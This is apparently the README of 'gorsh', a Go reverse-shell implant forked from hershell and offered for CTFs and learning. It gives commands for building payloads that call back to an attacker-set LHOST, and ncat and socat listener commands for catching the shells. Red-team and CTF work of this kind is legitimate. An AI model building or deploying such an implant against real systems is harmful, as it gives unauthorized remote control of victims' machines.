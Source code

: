 # gorsh

[go]lang [r]everse [sh]ell

![](https://i.imgur.com/AndZ567.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes
Changes after fork:

* Uses tmux as a pseudo-C2-like interface, creating a new window with each agent callback
* Download files with HTTP on all platform
* Download files with SMB on all windows
* Situational Awareness output on new shells
* Removed Meterpreter functionality
* Removed Shellcode execution
* Remove the use of passing power/shell commands at the gorsh prompt
* Add common file operation commands that use go instead of power/shell

TODO:

Potentially add reverse socks5 proxy functionality - Using
[Numbers11/rvprxmx](https://github.com/Numbers11/rvprxmx)


## Getting started

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).

### Building the payload

First, you'll need to generate your certs:

```bash
$ make depends
```

To simplify things, read the provided Makefile. You can set the following environment variables:

-`GOOS`: the target OS
-`GOARCH`: the target architecture
-`LHOST`: the attacker IP or domain name
-`LPORT`: the listener port

See possible`GOOS`and`GOARCH`variables [here](https://golang.org/doc/install/source#environment).

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
```

## Catching the shell

The `local/start.sh` kicks off a tmux session and creates new windows on every new connection.

Shells can also be caught with:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the gorsh shell.
Type `help` to show what commands are supported.

## Credits

Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`

Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
